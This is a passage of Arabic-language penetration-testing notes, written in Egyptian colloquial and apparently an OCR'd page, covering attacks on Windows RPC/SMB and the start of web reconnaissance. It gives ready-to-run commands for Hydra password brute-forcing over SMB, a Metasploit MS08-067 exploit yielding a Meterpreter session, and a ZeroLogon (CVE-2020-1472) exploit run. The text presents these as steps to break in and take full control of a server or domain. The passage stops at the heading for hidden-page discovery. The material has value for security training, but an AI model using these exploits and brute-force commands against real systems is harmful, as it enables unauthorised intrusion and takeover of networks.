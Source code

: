 #### ✅ **تجربة تسجيل الدخول بحساب معين:**

```bash
rpcclient -U "admin" target.com
```

#### ✅ **استخدام Hydra لتخمين الباسوردات:**

```bash
hydra -L users.txt -P passwords.txt smb://target.com
```

🔹 `users.txt` → قائمة بأسماء المستخدمين  
🔹 `passwords.txt` → قائمة بكلمات المرور

🟢 **الخلاصة بالعامية المصرية:**  
لو جبنا يوزرات من السيرفر، ممكن نجرب نخمن الباسوردات ونكسر الدخول!

---

### **💀 6. استغلال ثغرات RPC**

#### ✅ **استغلال MS08-067 لاختراق Windows XP/2003**

```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOSTS target.com
set LHOST your-ip
exploit
```

🔹 لو نجح، هتاخد **جلسة Meterpreter** وتتحكم في السيرفر بالكامل!

#### ✅ **استغلال ZeroLogon (CVE-2020-1472)**

```bash
python3 zerologon_exploit.py target.com
```

🔹 لو السيرفر **Domain Controller**، ممكن تبقى **Administrator** في الشبكة كلها!

🟢 **الخلاصة بالعامية المصرية:**  
لو السيرفر فيه ثغرات، ممكن نستخدم **Metasploit** أو سكريبتات Python لاختراقه بالكامل! 🔥

---

## **🚀 خطوات عملية لـ Web Pentesting**

### **1️⃣ جمع المعلومات (Reconnaissance)**

✅ **استكشاف الـ Subdomains**

```bash
subfinder -d target.com
```

✅ **البحث عن صفحات مخفية:**
